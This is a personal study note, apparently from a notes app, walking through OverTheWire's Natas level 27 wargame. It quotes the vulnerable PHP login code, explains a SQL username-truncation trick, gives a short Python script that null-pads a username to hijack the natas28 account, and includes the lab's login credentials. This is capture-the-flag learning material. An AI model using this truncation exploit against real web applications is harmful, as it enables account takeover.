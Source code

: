 
2024-08-03 14:07

Source: #natas #web #py 

Tags: [[sql]] [[PHP]]
# aka SQL Buffer overflow 

we have a login page 

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques

```php
function dumpData($link,$usr){ 
     
    $user=mysql_real_escape_string($usr); 
     
    $query = "SELECT * from users where username='$user'"; 
    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            while ($row = mysql_fetch_assoc($res)) {  
                //return print_r($row); 
                return print_r($row,true); 
            } 
        } 
    } 
    return False; 
} 
```
it will return a number of rows and if it's greater than 0 we have multiple results, so what it does is it does this while loop that it iterates through every single row (this is peculiar right?) because we only expected it to return one result like if there's only one user we're trying to login as a specific user that would probably just be one, but what if we are in the case if there are multiple results if there are multiple rows to look through

since the DB described has a 64 varchar size, we create a user named longer than the length that is setup.


```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/

https://sqltest.net/ - we can just experiment with sequel database and a quick and easy way without spinning up a server.